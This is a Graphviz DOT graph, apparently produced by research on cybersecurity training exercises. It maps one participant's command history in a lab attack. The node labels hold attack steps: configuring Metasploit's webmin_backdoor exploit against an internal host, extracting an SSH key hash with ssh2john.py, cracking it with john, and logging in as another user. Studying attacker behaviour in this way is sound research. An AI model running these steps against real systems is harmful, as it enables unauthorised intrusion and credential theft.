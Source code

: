 // creating graph for user: 69
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	2 [label="ls A10 "]
	4 [label="ls A10 "]
	7 [label="ls A10 "]
	9 [label="ls A10 "]
	10 [label="ssh 172.18.1.5 -p 10000 A16 "]
	11 [label="ssh 172.18.1.5 A16 "]
	18 [label="msfconsole M2 "]
	30 [label="help search A3 "]
	31 [label="search 1.920 A3 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="set vhost A6 "]
	35 [label="set lhost 10.1.135.83 A6 "]
	36 [label="set lhost 172.18.1.5  A6 "]
	37 [label="set lport 10 000 A6 "]
	38 [label="set lport 10000 A6 "]
	40 [label="set rhost 172.18.1.5 A6 "]
	42 [label="set lhost 10.1.135.83 A6 "]
	44 [label="set rport 10000 A6 "]
	45 [label="set lhost A6 "]
	47 [label="ls A10 "]
	48 [label="ls A10 "]
	51 [label="ls A10 "]
	52 [label="ls A10 "]
	54 [label="ls A10 "]
	57 [label="set rhost 172.18.1.5 A6 "]
	58 [label="set rport  A6 "]
	60 [label="ls A10 "]
	62 [label="set rport 10000 A6 "]
	63 [label="set shost A6 "]
	64 [label="set rhost A6 "]
	65 [label="set rhost 172.18.1.5 A6 "]
	66 [label="set lhost 10.1.135.83 A6 "]
	69 [label="set lhost A6 "]
	70 [label="set rhost A6 "]
	71 [label="set rhost 172.18.1.5 A6 "]
	72 [label="set rport 10000 A6 "]
	73 [label="ls A10 "]
	75 [label="ls A10 "]
	76 [label="ls A10 "]
	77 [label="cd ..ls A10 "]
	79 [label="ls A10 "]
	82 [label="ls A10 "]
	84 [label="ls A10 "]
	86 [label="ls A10 "]
	88 [label="ls A10 "]
	90 [label="ls A10 "]
	92 [label="ls A10 "]
	93 [label="ls A10 "]
	95 [label="ls A10 "]
	97 [label="ls A10 "]
	99 [label="ls A10 "]
	101 [label="ls A10 "]
	103 [label="ls A10 "]
	106 [label="ls A10 "]
	108 [label="locate A1 A9 A10 A11 A12 A17 "]
	109 [label="find A10 "]
	114 [label="ssh2john.py A14 A16 "]
	115 [label="find ssh2john.py A10 A14 A16 "]
	116 [label="ls A10 "]
	118 [label="ls A10 "]
	120 [label="ls A10 "]
	122 [label="ls A10 "]
	125 [label="ls A10 "]
	126 [label="ls A10 "]
	127 [label="lsa A10 "]
	128 [label="ls a A10 "]
	130 [label="ls a A10 "]
	133 [label="lsa A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="ls A10 "]
	138 [label="ls A10 "]
	139 [label="john hash A14 "]
	140 [label="john bash A14 "]
	0 -> 2 [constraint=false]
	2 -> 4 [constraint=false]
	4 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 18 [constraint=false]
	18 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 40 [constraint=false]
	40 -> 42 [constraint=false]
	42 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 54 [constraint=false]
	54 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 60 [constraint=false]
	60 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 79 [constraint=false]
	79 -> 82 [constraint=false]
	82 -> 84 [constraint=false]
	84 -> 86 [constraint=false]
	86 -> 88 [constraint=false]
	88 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 99 [constraint=false]
	99 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 118 [constraint=false]
	118 -> 120 [constraint=false]
	120 -> 122 [constraint=false]
	122 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 130 [constraint=false]
	130 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	rankdir=LR
}
